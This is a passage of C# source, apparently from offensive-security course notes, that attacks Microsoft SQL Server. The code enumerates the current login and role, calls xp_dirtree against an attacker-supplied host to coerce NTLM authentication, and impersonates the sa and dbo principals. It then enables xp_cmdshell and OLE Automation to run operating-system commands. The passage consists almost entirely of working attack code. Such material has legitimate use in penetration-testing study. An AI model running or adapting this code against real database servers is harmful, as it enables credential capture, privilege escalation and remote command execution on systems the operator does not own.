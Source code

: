 ```csharp
            }

            // Enumerate login name (SQL Server login or Domain/Windows username)
            string result = sqlQuery("SELECT SYSTEM_USER;", con);
            Console.WriteLine($"[*] Logged in as: {result}");

            // Enumerate database username
            result = sqlQuery("SELECT USER;", con);
            Console.WriteLine($"[*] Mapped to the user: {result}");

            // Check if we have public role assigned
            result = sqlQuery("SELECT IS_SRVROLEMEMBER('public');", con);
            Int32 val = Int32.Parse(result.ToString());
            if (val == 1)
            {
                Console.WriteLine("[*] User is a member of public role");
            }
            else
            {
                Console.WriteLine("[*] User is NOT a member of public role");
            }

            // Invoke xp_dirtree to coerce authentication on attacker's machine
            string lhost = args[0];
            sqlQuery($@"EXEC master..xp_dirtree '\\{lhost}\test';", con);
            Console.WriteLine($"[*] Invoked xp_dirtree against {lhost}");

            // Enumerate logins that we can impersonate
            result = sqlQuery("SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';", con);
            Console.WriteLine($"[*] Logins that can be impersonated:\n{result}");

            // Impersonate sa user
            result = sqlQuery("EXECUTE AS LOGIN = 'sa'; SELECT SYSTEM_USER;", con);
            Console.WriteLine($"[*] Executing in context of impersonated user: {result}");

            // Impersonate dbo database user
            result = sqlQuery("use msdb; EXECUTE AS USER = 'dbo'; SELECT USER;", con);
            Console.WriteLine($"[*] Executing in context of impersonated login: {result}");

            // Execute OS commands via xp_cmdshell
            sqlQuery("EXECUTE AS LOGIN = 'sa';", con);
            sqlQuery("EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;", con);
            Console.WriteLine("[+] Enabled xp_cmdshell");
            result = sqlQuery("EXEC xp_cmdshell whoami", con);
            Console.WriteLine($"[*] xp_cmdshell: {result}");

            // Execute OS commands via Ole Automation Procedures
            sqlQuery("EXECUTE AS LOGIN = 'sa';", con);
            sqlQuery("EXEC sp_configure 'Ole Automation Procedures',1; RECONFIGURE; ", con);
            sqlQuery(@"DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'cmd /c echo Test > C:\Windows\Tasks\out.txt';", con);

            con.Close();
        }
    }
}
```
{% endcode %}
